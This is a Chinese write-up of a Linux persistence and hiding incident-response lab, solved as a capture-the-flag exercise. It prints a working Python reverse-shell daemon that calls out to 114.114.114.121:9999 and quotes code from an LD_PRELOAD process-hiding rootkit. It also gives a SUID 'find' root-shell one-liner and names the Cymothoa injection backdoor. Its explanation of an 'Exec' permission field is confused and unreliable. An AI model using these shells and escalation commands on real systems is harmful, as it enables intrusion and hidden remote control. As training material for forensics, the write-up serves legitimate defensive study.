

# 玄机——第三章 权限维持-linux权限维持-隐藏

### 一、前言

**题目链接：**​**[第三章 权限维持-linux权限维持-隐藏](https://xj.edisec.net/challenges/27)**

**三连私信免费送玄机注册邀请码私信！！！看见就回！！注意私信！！**

 **&lt;font color=&quot;#ff0000&quot;&gt;这里先简单了解一下权限维持-linux权限维持-隐藏；&lt;/font&gt;**

首先在 Linux 系统上，权限维持是黑客攻击过程中的一个重要环节。攻击者成功获得系统权限后，会采取各种手段来保持对系统的访问控制，防止被发现并移除。这些手段可以分为多种，包括隐藏进程、文件、网络连接等。

**以下是一些常见的 Linux 权限维持和隐藏方法：**

1. **后门程序**

攻击者通常会在受害系统中安装后门程序，以便在需要时重新获得访问权限。常见的后门程序包括：

* **SSH 后门**：创建一个新的用户，配置 SSH 公钥认证，避免密码登录被检测到。
* **反弹 Shell**：通过反弹 Shell 连接到攻击者的机器，获取远程控制权限。
* **Web Shell**：通过 Web Shell（如 PHP 代码嵌入）远程控制 Web 服务器。

2. **Rootkit**

Rootkit 是一种能够隐藏自身及其他恶意程序的工具。安装 Rootkit 后，攻击者可以隐藏进程、文件和网络连接，防止被系统管理员发现。

* **内核级 Rootkit**：直接修改内核数据结构和函数，隐藏进程、文件和网络连接。
* **用户级 Rootkit**：通过劫持系统库函数（如 `ld_preload`​），隐藏特定进程和文件。

3. **持久化机制**

攻击者会使用各种持久化机制，以确保即使系统重启后也能重新获得控制权限。

* **修改启动脚本**：在系统启动脚本中加入恶意代码，保证每次系统启动时都会执行。
* **crontab 定时任务**：在 crontab 中添加恶意任务，定期执行恶意程序。

4. **文件隐藏**

攻击者会将恶意文件和工具隐藏在系统中，以防被发现。

* **文件名伪装**：将恶意文件命名为类似系统文件的名称，如 `syslogd`​、`sshd`​ 等。
* **隐藏目录**：使用隐藏目录（如 `.`​ 开头的目录），将恶意文件放置其中。

5. **网络连接隐藏**

攻击者可能会隐藏与其控制服务器的网络连接，以防被网络管理员发现。

* **端口重定向**：使用工具（如 `iptables`​）重定向流量到特定端口，隐藏实际通信端口。
* **加密通信**：使用加密协议（如 SSH、SSL）进行通信，防止流量被检测和分析。

6. **日志清除**

攻击者会清除或篡改系统日志，以隐藏入侵痕迹。

* **清除命令历史**：删除或篡改 `.bash_history`​ 文件。
* **修改系统日志**：直接修改系统日志文件（如 `/var/log`​ 下的日志），删除入侵痕迹。

7. **使用合法进程**

攻击者会利用合法的系统进程进行恶意活动，以隐藏其行为。

* **进程注入**：将恶意代码注入到合法的系统进程中。
* **利用系统工具**：使用系统自带的工具（如 `netcat`​、`curl`​）进行恶意操作。

**这些权限维持和隐藏技术使得攻击者能够长时间保持对系统的控制权，同时降低被检测和移除的风险。**

### 二、概览

#### 简介

**ssh root@env.xj.edisec.net -p  密码  xjqxwcyc**  
**1.黑客隐藏的隐藏的文件 完整路径md5**  
**2.黑客隐藏的文件反弹shell的ip+端口 {ip:port}**   
**3.黑客提权所用的命令 完整路径的md5 flag{md5}**   
**4.黑客尝试注入恶意代码的工具完整路径md5**  
**5.使用命令运行 ./x.xx 执行该文件  将查询的 Exec****** 值 作为flag提交 flag{/xxx/xxx/xxx}**

### 三、参考文章

[第三章 - 权限维持 - Linux 权限维持隐藏](https://nlrvana.github.io/%E7%AC%AC%E4%B8%89%E7%AB%A0-%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81-linux%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81-%E9%9A%90%E8%97%8F/)

[玄机应急响应wp](https://xz.aliyun.com/t/14254?time__1311=mqmx9QiQi%3D0%3DDQeDsNOfpDumoX5GIpXmNx&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Ftab%2F4#toc-6)

### 四、步骤（解析）

#### 准备步骤#1.0

使用Xshell连接靶机，新建或者SSH都可；（具体操作不再多叙，示例文章：[webshell查杀](https://blog.csdn.net/administratorlws/article/details/139521078?spm=1001.2014.3001.5501)）

**新建；（注意填写靶机端口号）**

​​

**成功连接；**

​​

#### 步骤#1.1

##### 黑客隐藏的隐藏的文件 完整路径md5

解题思路

**题目让我们找出黑车隐藏的文件的路径接着MD5加密提交，那我们可以直接使用find来进行查找以点开头的隐藏文件，那有的人有会问了，为什么查以点开头的文件可以找到隐藏的文件？**

> 简而言之，使用 `find`​ 命令查找隐藏文件（以 `.`​ 开头的文件）是因为 Unix/Linux 系统中，文件名以 `.`​ 开头的文件默认是隐藏文件。这些文件不会显示在普通的 `ls`​ 命令输出中，除非使用 `ls -a`​。黑客常常利用这种特性，将恶意文件或脚本以 `.`​ 开头来隐藏。

使用命令；

	find / -name ".*"

得到；

​​

好巧不巧也不知道是不是故意的，就在最下面得到；

	/tmp/.temp  
	/tmp/.temp/libprocesshider/.git  
	/tmp/.temp/libprocesshider/.gitignore

简单分析一下亮点；

**分析**

1. **/tmp/.temp**

    * 首先这个目录以 `.`​ 开头，因此是一个隐藏目录。
    * 其次存放在 `/tmp`​ 目录下，这里通常用于临时文件存储。
    * 最后黑客可能利用 `/tmp`​ 目录来存放临时的恶意文件，因为 `/tmp`​ 通常具有读写权限。
2. **/tmp/.temp/libprocesshider/**

    * 这个子目录也以 `.`​ 开头，属于隐藏目录 `/tmp/.temp`​。
    * 目录名 `libprocesshider`​ 暗示包含用于隐藏进程的库或工具，通常是恶意软件的一部分。
3. **/tmp/.temp/libprocesshider/.git**

    * 这是一个隐藏的 `.git`​ 目录，表明这个目录可能是一个 Git 仓库。
    * 黑客可能使用 Git 来管理他们的工具或恶意代码。
4. **/tmp/.temp/libprocesshider/.gitignore**

    * 这是一个 Git 配置文件，用于指定哪些文件或目录在提交时应被忽略。
    * 这个文件也以 `.`​ 开头，是一个隐藏文件。

**为什么它们是隐藏文件**

* **默认隐藏**：在 Unix/Linux 系统中，以 `.`​ 开头的文件和目录默认是隐藏的。这种文件和目录不会在普通的 `ls`​ 列表中显示，除非使用 `ls -a`​ 命令。
* **逃避检测**：黑客常常利用隐藏文件和目录来逃避系统管理员或安全工具的检测。把恶意文件放在隐藏目录中可以减少被发现的几率。
* **临时性**：将文件放在 `/tmp`​ 目录下表明这些文件可能是临时的。系统重启后，某些 `/tmp`​ 目录下的文件可能会被删除，从而掩盖黑客的痕迹。

**跟进目录“/tmp/.temp/libprocesshider/”进行分析；**

使用命令；

	ls -la

得到；

​​

得到；

	root@xuanji:/tmp/.temp/libprocesshider# ls -la  
	total 24  
	drwxr-xr-x. 3 root root  119 Aug  3  2023 .  
	drwxr-xr-x. 3 root root   29 Aug  3  2023 ..  
	drwxr-xr-x. 8 root root  163 Aug  3  2023 .git  
	-rw-r--r--. 1 root root   20 Aug  3  2023 .gitignore  
	-rwxr-xr-x. 1 root root  826 Aug  3  2023 1.py  
	-rw-r--r--. 1 root root  168 Aug  3  2023 Makefile  
	-rw-r--r--. 1 root root 2941 Aug  3  2023 README.md  
	-rw-r--r--. 1 root root 3477 Aug  3  2023 processhider.c  
	-rw-r--r--. 1 root root  243 Aug  3  2023 shell.py

**发现可疑文件，可能会隐藏恶意活动相关的脚本，我们一个一个进行分析；**

**那就先从1.py开始吧；（看它不舒服，嫌疑最大）**

命令；

	cat 1.py

得到；

​​

简单分析一下；

	#!/usr/bin/python3

	import socket,subprocess,os,sys, time

	pidrg = os.fork()  
	if pidrg > 0:  
	        sys.exit(0)

	os.chdir("/")  
	os.setsid()  
	os.umask(0)  
	drgpid = os.fork()  
	if drgpid > 0:  
	        sys.exit(0)

	while 1:  
	        try:  
	                sys.stdout.flush()  
	                sys.stderr.flush()  
	                fdreg = open("/dev/null", "w")  
	                sys.stdout = fdreg  
	                sys.stderr = fdreg  
	                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
	                sdregs.connect(("114.114.114.121",9999))  
	                os.dup2(sdregs.fileno(),0)  
	                os.dup2(sdregs.fileno(),1)  
	                os.dup2(sdregs.fileno(),2)  
	                p=subprocess.call(["/bin/bash","-i"])  
	                sdregs.close()  
	        except Exception:  
	                pass  
	        time.sleep(2)

**这个 Python 脚本文件是一个反弹 shell 程序，具有后台运行的功能。**

**分析内容**

1. **导入模块**

    * 导入了 `socket`​、`subprocess`​、`os`​、`sys`​ 和 `time`​ 模块。
    * 这些模块分别用于创建网络连接、执行系统命令、进行系统操作、处理系统参数和控制程序延迟。
2. **第一步 fork 进程**

    pidrg = os.fork()  
    if pidrg > 0:
    sys.exit(0)

    * ​`os.fork()`​ 创建一个子进程。
    * 如果 `pidrg`​ 大于 0，则表示这是父进程，父进程会退出。
    * 子进程继续执行后续代码。
3. **切换工作目录和会话**

    os.chdir("/")  
    os.setsid()  
    os.umask(0) drgpid = os.fork()  
    if drgpid > 0:
    sys.exit(0)

    * ​`os.chdir("/")`​ 将当前工作目录更改为根目录 `/`​。
    * ​`os.setsid()`​ 创建一个新的会话，并使子进程成为新会话的领导进程。
    * ​`os.umask(0)`​ 设置文件创建掩码为 0。
    * 再次 `os.fork()`​ 创建一个新的子进程。
    * 如果 `drgpid`​ 大于 0，则父进程退出。最终的子进程继续运行，成为守护进程。
4. **主循环**

    while 1:  
    try:  
    sys.stdout.flush()  
    sys.stderr.flush()  
    fdreg = open("/dev/null", "w")  
    sys.stdout = fdreg  
    sys.stderr = fdreg  
    sdregs = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    sdregs.connect(("114.114.114.121", 9999))  
    os.dup2(sdregs.fileno(), 0)  
    os.dup2(sdregs.fileno(), 1)  
    os.dup2(sdregs.fileno(), 2)  
    p = subprocess.call(["/bin/bash", "-i"])  
    sdregs.close()  
    except Exception:  
    pass  
    time.sleep(2)

    * 无限循环，确保脚本不断运行。
    * 尝试执行以下操作：

      * 刷新标准输出和标准错误。
      * 打开 `/dev/null`​ 并将标准输出和标准错误重定向到 `/dev/null`​。
      * 创建一个 TCP 套接字连接到 `114.114.114.121:9999`​。
      * 使用 `os.dup2`​ 将标准输入、输出和错误重定向到这个套接字。
      * 执行 `/bin/bash -i`​，启动一个交互式 shell。
      * 关闭套接字连接。
    * 如果出现异常，忽略并继续循环。
    * 每次循环之间等待 2 秒。

**总结**

**这个脚本的目的是创建一个反弹 shell 连接，将当前系统的命令行接口通过网络发送到远程服务器** **​`114.114.114.121:9999`​**​ **，并在服务器上执行。这种行为通常被黑客用来远程控制受害者的系统。**

所以1.py并不是我们这题需要找的文件，接着继续分析一下文件shell.py；

得到；

​​

简单分析一下；

**这个** **​`shell.py`​**​ **文件也是一个反弹 shell 脚本。它的作用是将当前系统的标准输入、标准输出和标准错误重定向到一个远程服务器的网络连接上，从而允许远程服务器对该系统进行命令控制。**

总的来说；

**这个脚本的目的是启动一个反弹 shell，将当前系统的命令行接口通过网络发送到远程服务器** **​`172.16.10.7:2220`​**​ **，并在服务器上执行。这种行为通常被黑客用来远程控制受害者的系统，跟文件1.py有异曲同工之处**

> 这里查了两个.py后缀结尾的文件还是没有发现，不过没关系，很正常嘛，也许很多博主直接把答案写出来，大家也就看过就过了，但是不知道的是，很多都是博客一个一个进行查找进行分析得出的结果，只是我这里把分析的过程写详细了些，让大家知道其实没那么简单的；

那我们接下来查看一下“processhider.c”文件，因为这其实是一个 C 语言源代码文件，很有可能是用于隐藏进程的核心代码，具体是什么我们来分析看看。

得到；

​​

**简单分析一下；（由于代码有些过与太长我就不贴出来了，大家对着解析进行查看即可）**

总的来说；

这个 `processhider.c`​ 文件的目的是通过动态链接库拦截 `readdir`​ 系统调用，来隐藏特定名称的进程（在这个中是 `1.py`​）的目录项，使其在进程列表中不可见。

详细分析；

	static const char* process_to_filter = "1.py";

指定要隐藏的进程名称 `1.py`​。

	static int get_dir_name(DIR* dirp, char* buf, size_t size)  
	{  
	    int fd = dirfd(dirp);  
	    if(fd == -1) {  
	        return 0;  
	    }

	    char tmp[64];  
	    snprintf(tmp, sizeof(tmp), "/proc/self/fd/%d", fd);  
	    ssize_t ret = readlink(tmp, buf, size);  
	    if(ret == -1) {  
	        return 0;  
	    }

	    buf[ret] = 0;  
	    return 1;  
	}

​`get_dir_name`​ 函数通过 `dirfd`​ 获取目录文件描述符，并使用 `readlink`​ 读取符号链接 `/proc/self/fd/`​ 指向的实际路径。

**总结；**

> 这个程序通过动态链接库技术拦截了 `readdir`​ 函数调用，在 `/proc`​ 目录下过滤出指定进程名的目录项，从而隐藏指定进程，使其在进程列表中不可见。这是一种常见的进程隐藏技术，通常用于恶意软件以隐藏自身，所以“1.py”就是题目让我们找的黑客隐藏文件。

**根据提交格式：完整路径md5**

完整路径：/tmp/.temp/libprocesshider/1.py

进行MD5加密：[在线MD5](https://www.jyshare.com/front-end/703/)

得到；

​​

所以；

	flag{109ccb5768c70638e24fb46ee7957e37}

#### 步骤#1.2

##### 黑客隐藏的文件反弹shell的ip+端口 {ip:port}

解题思路

**题目让我们找出文件反弹shell的ip以及端口号，题一之前分析的文件“1.py”以及“shell.py”想必大家还记得吧？那这答案就很明显了吧，没关系，我们也可以来回忆一下；**

**文件“1.py”得到；**

​​

**文件“shell.py”得到；**

​​

简单分析一下；

文件1.py；

**功能和特点**

1. **双重 Fork 实现进程脱离控制台：**

    * 第一次 `fork`​ 后父进程退出，使子进程成为孤儿进程，由 `init`​ 进程收养。
    * 调用 `setsid`​ 创建新会话并成为会话组长。
    * 第二次 `fork`​ 确保进程不是会话组长，从而避免再打开控制终端。
2. **无限循环连接反弹：**

    * 在无限循环中尝试连接 `114.114.114.121`​ 的 9999 端口。
    * 成功连接后，将标准输入、输出和错误重定向到该 socket。
    * 启动一个 `/bin/bash`​ shell。
3. **隐藏自身输出：**

    * 将标准输出和标准错误重定向到 `/dev/null`​，使其不产生任何输出。

文件shell.py;

**功能和特点**

1. **简单直接的反弹 Shell：**

    * 创建一个 TCP 连接到 `172.16.10.7`​ 的 2220 端口。
    * 将标准输入、输出和错误重定向到该 socket。
    * 启动一个交互式的 `/bin/sh`​ shell。

**对比和区别**

1. **连接目标和端口不同：**

    * ​`1.py`​ 连接 `114.114.114.121`​ 的 9999 端口。
    * ​`shell.py`​ 连接 `172.16.10.7`​ 的 2220 端口。
2. **shell 类型：**

    * ​`1.py`​ 使用的是 `/bin/bash`​。
    * ​`shell.py`​ 使用的是 `/bin/sh`​。
3. **进程处理：**

    * ​`1.py`​ 通过双重 `fork`​ 以及会话控制使进程脱离终端并成为守护进程。
    * ​`shell.py`​ 没有进行进程处理，直接运行反弹 shell。
4. **隐藏输出：**

    * ​`1.py`​ 将标准输出和标准错误重定向到 `/dev/null`​，以隐藏运行时的任何输出。
    * ​`shell.py`​ 没有执行这一步，输出会直接通过 socket 传输。
5. **无限重连：**

    * ​`1.py`​ 在捕获到异常时，通过 `time.sleep(2)`​ 进行无限重连。
    * ​`shell.py`​ 只在执行时进行一次连接，没有重连机制。

**总的来说；**

> 这两个脚本都用于反弹 shell，其中 `1.py`​ 采用了更复杂的技术来隐藏和持久化，而 `shell.py`​ 则是一个简单直接的反弹 shell 实现。它们的共同点是都通过 socket 连接到远程主机并启动一个 shell，允许远程执行命令。区别在于 `1.py`​ 更注重隐藏和持续性，而 `shell.py`​ 则更加简洁和直接。

**题目让我们提交shell的IP以及端口号；**

所以；

	flag{114.114.114.121:9999}

#### 步骤#1.3

##### 黑客提权所用的命令 完整路径的md5 flag{md5}

解题思路

题目让我们提交黑客提权使用的命令且进行MD5加密提交，那就主要查看系统日志和文件变化记录，查找以下文件可能的变动：

* ​`/etc/passwd`​
* ​`/etc/sudoers`​
* 具有 `SUID`​ 位设置的文件。

**这里系统日志与文件均为发现什么特别点（文件太多一时半会看不过来），那我们就主要查看SUID位设置的文件，那在此之前我们先简单了解一下什么是SUID提权；**

> SUID（Set User ID）是 Unix/Linux 文件系统中的一种权限位。当文件的 SUID 位被设置时，执行该文件的用户将临时获得文件所有者的权限。这通常用于程序需要执行一些需要更高权限的操作（例如，`ping`​ 命令需要发送 ICMP 请求，因此需要 root 权限）。

所以这里我们使用命令；

	find / -perm -u=s -type f 2>/dev/null

简单分析一下；

**这个命令用于查找系统上所有设置了 SUID 位的文件。具体解释如下：**

* ​`find /`​: 从根目录开始查找。
* ​`-perm -u=s`​: 查找文件权限中包含 SUID 位（即，用户执行该文件时将获得该文件所有者的权限）。
* ​`-type f`​: 只查找文件（不包括目录）。
* ​`2>/dev/null`​: 将标准错误输出重定向到 `/dev/null`​，以避免显示权限不足等错误信息。

得到；

​​

简单分析一下；

	/bin/mount  
	/bin/ping  
	/bin/ping6  
	/bin/su  
	/bin/umount  
	/usr/bin/chfn  
	/usr/bin/chsh  
	/usr/bin/find  
	/usr/bin/gpasswd  
	/usr/bin/newgrp  
	/usr/bin/passwd  
	/usr/bin/sudo  
	/usr/lib/eject/dmcrypt-get-device  
	/usr/lib/openssh/ssh-keysign

不难看出“/usr/bin/find”被进行了提权，我们来说说为什么；

**在文件列表中，**​ **​`/usr/bin/find`​**​ **是一个特别值得关注的 SUID 文件，因为** **​`find`​**​ **命令具有一些可以被恶意利用的特性，**

1. **真正明白到底什么是** **​`find`​**​ **命令嘛？**

​`find`​ 是一个非常强大的命令行工具，用于在目录树中搜索文件并执行各种操作。`find`​ 可以执行指定的命令或脚本，这使得它在具有 SUID 位时变得特别危险。

2. **利用 SUID** **​`find`​**​ **进行提权**

当 `find`​ 命令设置了 SUID 位，并且该命令存在已知漏洞或不当配置，攻击者可以利用它来执行任意命令，从而提升权限。以下是一个利用 SUID `find`​ 进行提权的示例：

3. **检查 SUID 文件的权限**

可以使用 `ls -l`​ 命令来检查 `find`​ 命令的权限：

	ls -l /usr/bin/find

得到；

​​

其中，`rws`​ 表示文件所有者（root）具有 SUID 位（`s`​），并且文件的所有者是 root，所以不难看出find就是被黑客进行提权。

4. **为什么** **​`find`​**​ **特别危险？**

* **强大的功能：**  `find`​ 命令可以执行任意命令或脚本，这意味着如果用户能够控制 `find`​ 的输入，他们可以执行任意代码。
* **常见漏洞：**  许多历史版本的 `find`​ 命令存在已知漏洞，允许攻击者以 root 权限执行任意代码。
* **广泛使用：**  `find`​ 是一个常用工具，很多系统管理员和用户都习惯使用它，且往往忽略其安全隐患。

**最后总得来说；**

> 在 SUID 文件列表中，`/usr/bin/find`​ 因其强大的功能和历史漏洞，可以直接进行提权。攻击者可以利用 SUID `find`​ 的 `-exec`​ 选项执行任意命令，从而获得高权限（如 root 权限）的 shell。

根据题目让我们提交完整路径的md5；

完整路径：/usr/bin/find

[在线MD5](https://www.jyshare.com/front-end/703/)

得到；

​​

所以；

	flag{7fd5884f493f4aaf96abee286ee04120}

###### 拓展1.1

**SUID 提权安全隐患；**

如果某个 SUID 程序存在漏洞，攻击者可以利用该漏洞，以文件所有者的权限（通常是 root）执行任意代码，从而实现提权。

**常规的 SUID 提权方法；**

* **查找 SUID 文件：**  使用 `find`​ 命令查找系统中的所有 SUID 文件：

  ​`find / -perm -u=s -type f 2>/dev/null`​
* **检查可疑文件：**  查看找到的 SUID 文件，寻找常见的提权工具（如 `nmap`​、`vim`​、`find`​、`awk`​、`perl`​ 等）是否在列表中。这些工具如果被设置为 SUID，有可能被利用来执行任意命令。
* **利用漏洞：**  如果找到的 SUID 文件有已知的漏洞，可以利用这些漏洞来执行任意命令。例如，某些版本的 `nmap`​ 可以通过 `--interactive`​ 模式获得一个 shell，进而提权。

**如何判断文件是否可能被利用进行提权？**

* **不应拥有 SUID 位的程序：**  如常见编辑器（`vim`​）、网络工具（`tcpdump`​）、脚本语言解释器（`perl`​）等。如果这些程序被设置了 SUID 位，通常是异常情况，需要进一步检查。
* **检查文件的所有权和权限：**  例如，一个 root 所有的文件，其权限中包含 SUID 位，可以通过 `ls -l`​ 命令查看文件的详细信息。如果发现可疑文件，可以进一步分析其行为。

###### 拓展1.2

**示例：利用 SUID** **​`find`​**​ **获取 root shell**

假设 `find`​ 命令具有 SUID 位，可以使用以下方法获取 root shell：

​`/usr/bin/find . -exec /bin/sh \; -quit`​

这里，`find`​ 将在当前目录（`.`​）搜索，并使用 `-exec`​ 选项执行 `/bin/sh`​（一个新的 shell）。因为 `find`​ 具有 SUID 位，这个 shell 将以 root 权限运行。

#### 步骤#1.4

##### 黑客尝试注入恶意代码的工具完整路径md5

解题思路

题目让我们找出注入的恶意代码工具完整路径MD5，首先得先了解一下常用的注入工具有哪一些；

**常用的注入工具，包括了不同类型的工具，如命令注入、SQL注入、代码注入等。**

* **SQLMap**

  * **描述**：一个开源的自动化SQL注入工具，能够识别和利用SQL注入漏洞并接管数据库服务器。
  * **用法**：适用于各种数据库管理系统（如MySQL、PostgreSQL、Oracle、Microsoft SQL Server等）的SQL注入攻击。
* **Havij**

  * **描述**：一个自动化的SQL注入工具，具有图形用户界面，能够轻松利用SQL注入漏洞。
  * **用法**：用于挖掘和利用SQL注入漏洞，特别适用于初学者。
* **SQLNinja**

  * **描述**：一个专门针对Microsoft SQL Server的SQL注入工具。
  * **用法**：帮助攻击者利用SQL注入漏洞获取系统权限。
* **JSQL Injection**

  * **描述**：一个开源的跨平台SQL注入工具，支持多种数据库。
  * **用法**：提供图形用户界面，便于用户进行SQL注入攻击。
* **Burp Suite**

  * **描述**：一个用于测试Web应用程序安全性的综合工具，具有SQL注入模块。
  * **用法**：手动和自动化的SQL注入测试。
* **Commix**

  * **描述**：一个自动化的命令注入和命令执行工具。
  * **用法**：帮助发现和利用Web应用程序中的命令注入漏洞。
* **Metasploit**

  * **描述**：一个渗透测试框架，包含多个注入模块（包括SQL注入、命令注入等）。
  * **用法**：广泛用于渗透测试和漏洞利用。
* **Cymothoa**

  * **描述**：一个后门工具，用于将用户空间代码注入到正在运行的进程中。
  * **用法**：常用于在受感染的系统上持久化存在并隐蔽地运行恶意代码。
* **BeEF (Browser Exploitation Framework)**

  * **描述**：一个浏览器攻击框架，用于利用浏览器漏洞并在受害者浏览器上执行恶意代码。
  * **用法**：通过浏览器注入代码并控制受害者浏览器会话。
* **W3af (Web Application Attack and Audit Framework)**

  * **描述**：一个Web应用程序安全扫描器和攻击框架，支持多种注入攻击（如SQL注入、命令注入等）。
  * **用法**：用于自动化扫描和攻击Web应用程序。

**那就找呗，工具就那么多，题目也没有给出的具体信息，翻一下可能存在的目录；**

**一开始我使用的是Xftp连接靶机，因为这样直接分析文件相对来说会比直接在靶机上速度快的很多，但是在我一个一个文件分析过去的时候突然发现/opt目录下是空的，这时候我就不得不怀疑了，因为liunx下/opt目录是存放安装第三方软件和应用程序，不应该什么都没有啊，那就只有一个可能被黑客隐藏起来了，接着就去靶机分析/opt目录文件；**

> 因为在Linux系统中，通常将 `/opt`​ 目录用于存放可选的、占用空间较大的第三方软件和应用程序。这些程序通常不是系统自带的，也不是通过系统包管理器（如apt、yum等）安装的。

**所以想想看一个靶机会有安装三方软件和应用程序？那如果不是黑客注入工具存放地，你说说还能想到啥？**

​​

**最后的最后也是发现&quot;/opt&quot;隐藏目录下发现了“Cymothoa”工具；**

​​

跟进；

​​

**[Cymothoa后门工具介绍](https://www.cnblogs.com/-qing-/p/10519363.html)**

**题目让我们提交完整路径md5；**

**完整路径：/opt/.cymothoa-1-beta/cymothoa**

[在线MD5](https://www.jyshare.com/front-end/703/)

​​

所以；

	flag{087c267368ece4fcf422ff733b51aed9}

#### 步骤#1.5

##### 使用命令运行 ./x.xx 执行该文件 将查询的 Exec****** 值 作为flag提交 flag{/xxx/xxx/xxx}

解题思路

题目让我们执行./x.xx文件就是题一让我们找出的1.py文件，让我们将Exec的值提交，那这里我们先简单了解一下什么是Exec值；

简单来说；

**就是Linux系统中的** **​`Exec`​**​ **相关字段，通常用于查看程序执行时的权限设置。这些字段通常可以在文件系统的详细信息（如** **​`ls -l`​**​ **命令的输出）中找到。具体来说：**

* **文件权限字段解释**：

  * 文件或目录权限显示的第一个字段是 `Exec`​ 字段。
  * 对于文件，这个字段的值代表了文件的执行权限。
  * 对于目录，这个字段的值表示该目录是否可以被执行（进入）。
* **具体取值**：

  * 如果该字段显示为 `r`​，表示文件具有读权限。
  * 如果该字段显示为 `w`​，表示文件具有写权限。
  * 如果该字段显示为 `x`​，表示文件具有执行权限。
  * 如果该字段显示为 `-`​，表示文件没有相应的权限。

举个例子；

例如，一个文件的详细信息可能如下所示：

​`-rwxr-xr--`​

在这个例子中，`Exec`​ 字段的值为 `-rwxr-xr--`​，这表示：

* 所有者（Owner）有读、写、执行权限（rwx）。
* 组（Group）有读、执行权限（r-x）。
* 其他用户（Others）只有读权限（r--）。

因此，通过查看文件或目录的详细信息，可以了解到文件的具体权限设置，包括是否具有执行权限。

**那这里我们先运行一下文件“1.py”；**

	python3 /tmp/.temp/libprocesshider/1.py

得到；

​​

这边已经成功执行并且查看网络连接；（netstat -anlpt）

**根据之前已经可以确认IP地址：114.114.114.121:9999就是反弹shell的IP，所以直接查找一下python3；**

	which python3

得到；

​​

因为题目让我们提交的是 Exec的 值，所以使用命令ls -la进行查询；

	ls -la /usr/bin/python3

命令 `ls -la /usr/bin/python3`​ 用于列出 `/usr/bin/python3`​ 文件的详细信息，其中包括文件权限、所有者、大小、创建日期等。

​​

得到；

> lrwxrwxrwx. 1 root root 9 Mar 23  2014 /usr/bin/python3 -> python3.4

所以；

	flag{/usr/bin/python3.4}

简单说一下；

1. **符号链接解析**：

    * ​`/usr/bin/python3`​ 是一个符号链接（软链接），指向 `python3.4`​。
2. **Exec** 值的含义**：

    * 在Linux中，`Exec`​ 值是指程序是否可执行（executable）的标志。当文件具有可执行权限时，这个标志位会被设置，表示该文件可以作为一个独立的可执行程序来运行。
3. **为什么是可执行的**：

    * 由于 `/usr/bin/python3`​ 指向 `python3.4`​，并且在文件的权限字段中显示有 `rwx`​（读、写、执行权限），因此 `Exec`​ 值被设置为表示这个文件是可执行的。

所以，根据符号链接指向的实际文件 `python3.4`​ 的权限设置，`/usr/bin/python3`​ 作为一个符号链接，继承了指向文件的执行权限。

‍
